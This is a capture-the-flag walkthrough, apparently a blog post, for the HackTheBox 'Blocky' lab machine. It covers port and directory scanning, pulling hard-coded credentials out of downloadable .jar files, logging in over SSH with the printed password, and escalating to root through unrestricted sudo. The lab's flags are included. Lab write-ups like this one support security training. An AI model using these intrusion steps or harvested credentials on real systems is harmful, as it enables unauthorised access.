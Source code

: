 ```yaml
---
title: "HTB Walkthrough: Blocky"
date: 2023-03-06T22:46:30-04:00 
categories:
  - HackTheBox
header:
  teaser: /assets/images/HTB/blocky/Blocky.png
tags:
  - Easy
  - Linux Host
  - Wordpress
  - Java
  - SQL
  - phpMyAdmin
  - Hard-coded Credentials
  - SUID Exploitation
---
```


![Blocky Logo](/assets/images/HTB/blocky/Blocky.png)  

---  

## Enumeration  


### Port Scanning  

Running our portscan with NMap comes back kind of juicy. We notice an outdated FTP server on port 21, OpenSSH on port 22, an Apache webserver on port 80, and a minecraft server on port 25565.  


```bash
sudo nmap -sS -T5 -A -sV -p- 10.10.10.37 | tee nmap_full.log

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```  

### Directory Scanning  

After discovering port 80 open, I launched a directory buster against blocky.htb which returned quite a few results:

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://blocky.htb/FUZZ | tee ffuf.log

wiki                    [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 96ms]
wp-content              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 96ms]
plugins                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 102ms]
wp-includes             [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 97ms]
javascript              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 98ms]
wp-admin                [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 109ms]
phpmyadmin              [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 101ms]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12, Duration: 96ms]
```  
### WPScan  

Since we detected WordPress running on this webserver (wp-content and wp-includes in the directory scan indicate this), I ran wpscan:

```bash
wpscan http://blocky.htb/
```  

This returned some information about plugins, themes and the wordpress version, but I did not use it to exploit this machine.  

### Manual Web Browser Inspection  

Navigating to 10.10.10.37:80 in our browser attempts to redirect to http://blocky.htb and fails. This means we need to add a new line to our /etc/hosts file.

Add a line to the file that looks like this and save it:  

```bash
10.10.10.37    blocky.htb
```  

Now, when we refresh the page, we are presented with a blog-style Wordpress site and a Minecraft background:  

![Home](/assets/images/HTB/blocky/home.png)  

There is a broken comment section and a login portal, however, the only thing I really noted was that there is a comment from a developer named Notch on this page:  

![Notch](/assets/images/HTB/blocky/notch.png)  

Continuing with enumeration, I was quickly drawn to a web directory named /plugins/files/ which hosted two .jar files, which are executable Java file formats (one of them is named BlockyCore... wink wink machine name).  

![files](/assets/images/HTB/blocky/files.png)  

These seem suspiciously placed, and I downloaded them to inspect.  

After clicking these to download, I ran the following command to inflate them (as they are zipped) and view the contents:

```bash
jar xvf ~/Downloads/BlockyCore.jar

jar xvf ~/Downloads/griefprevention-1.11.2-3.1.1.298.jar
```  

Navigating into their created folders, I find a suspicious file and run the *strings* command on it to print out any strings in the file.  

```bash
cd ~/Downloads/

ls

BlockyCore.jar  com  griefprevention-1.11.2-3.1.1.298.jar  mcmod.info  me  META-INF
```  

![Reading Jar Files](/assets/images/HTB/blocky/jar.png)  

We see information here for a SQL user login and what looks to be credentials... boom!  

## Exploitation  

### phpMyAdmin  

Initially my first thought was to go login to the phpMyAdmin portal that we enumerated earlier, and I did, as root user with the above credentials.  

Enumerating this database, we can see a user named Notch, again. But all of this was honestly extra work compared to the minimum you need to enumerate the next step.  

### FTP  

I ALSO logged into notch over FTP on port 21, and rooted around for a minute but this too, was unnecessary. Lastly, I logged into the computer remotely over SSH:  

```bash
ssh notch@10.10.10.37

The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 8YsqfCTnvxAUeduzjNSXe22

Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ whoami
notch
```  

Let's grab our user flag to satisfy HackTheBox!  

```bash
notch@Blocky:/home$ cd ~
notch@Blocky:~$ ls
minecraft  user.txt

notch@Blocky:~$ cat user.txt
422ba7d0c21bda0d538faca24985e41f
```  
 

## Post-Exploit Enumeration  

The first thing I always check for when logging in as a low-privileged user is suid assigned sudo commands.  

```bash
notch@Blocky:/home$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```  

This literally tells us that blocky can run all commands on this machine as the root user... too easy.  


## Privilege Escalation  

The escalation is as simple as running a bash shell with sudo. Let's grab our root flag. 

```bash
notch@Blocky:/home$ sudo /bin/bash
root@Blocky:/home# id
uid=0(root) gid=0(root) groups=0(root)

root@Blocky:/home# whoami
root

root@Blocky:/home# cat /root/root.txt
e52044f3d1312f80daaadab97193f930
```  

That's all for now, thanks for reading!  


